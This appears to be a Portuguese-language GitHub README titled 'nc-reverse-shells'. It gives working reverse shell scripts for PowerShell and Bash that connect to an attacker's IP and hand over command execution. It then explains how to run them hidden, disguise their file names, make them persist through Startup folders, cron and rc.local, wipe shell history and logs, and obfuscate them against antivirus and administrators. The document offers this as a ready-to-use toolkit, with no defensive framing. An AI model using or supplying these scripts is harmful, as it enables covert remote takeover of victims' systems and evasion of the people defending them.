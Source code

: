 # nc-reverse-shells
1. Script PowerShell (Windows)

# Salvar como reverse_shell.ps1
# Script silencioso para conexão reversa

$ip = "192.168.15.25"   # Substitua pelo IP do atacante
$port = 3000            # Substitua pela porta usada pelo atacante

try {
    $client = New-Object System.Net.Sockets.TCPClient($ip, $port)
    $stream = $client.GetStream()
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024

    while (($bytes = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
        $cmd = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $bytes)
        $output = (Invoke-Expression $cmd 2>&1 | Out-String)
        $prompt = "PS " + (Get-Location).Path + "> "
        $response = $output + $prompt
        $sendbyte = ([Text.Encoding]::ASCII).GetBytes($response)
        $stream.Write($sendbyte, 0, $sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()
} catch {
    # Silenciosamente falha, sem erros visíveis ao usuário
    Start-Sleep -Seconds 10
}

Como torná-lo mais silencioso:

    Esconda a execução:
        Execute o script com:

        powershell -WindowStyle Hidden -File reverse_shell.ps1

    Persistência (opcional):
        Coloque o script em um local menos visível (ex.: %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup).

2. Script Bash (Linux)

#!/bin/bash
# Salvar como reverse_shell.sh
# Script silencioso para conexão reversa

IP="192.168.15.25"   # Substitua pelo IP do atacante
PORT=3000            # Substitua pela porta usada pelo atacante

# Criação de conexão reversa silenciosa
mkfifo /tmp/.hidden_pipe
cat /tmp/.hidden_pipe | /bin/bash -i 2>&1 | nc $IP $PORT > /tmp/.hidden_pipe &
rm -f /tmp/.hidden_pipe  # Remove o pipe após a execução

Como torná-lo mais silencioso:

    Esconda o script:
        Coloque o arquivo em um local menos óbvio, como ~/.cache/ ou /tmp/.hidden/.
        Nomeie-o de forma inofensiva (ex.: .system_update.sh).

    Execução silenciosa:
        Execute o script com:

    nohup ./reverse_shell.sh > /dev/null 2>&1 &

Persistência (opcional):

    Adicione o script ao cron ou rc.local:

        (crontab -l 2>/dev/null; echo "@reboot /caminho/para/reverse_shell.sh") | crontab -

Cuidados Adicionais

    Minimize rastros: Limpe logs e histórico de comandos após a execução.
        Linux:

history -c && unset HISTFILE

Windows: Use PowerShell para limpar o histórico do terminal:

    Clear-History

Obfusque os scripts: Use ferramentas de compactação ou codificação para dificultar sua identificação por antivírus ou administradores.
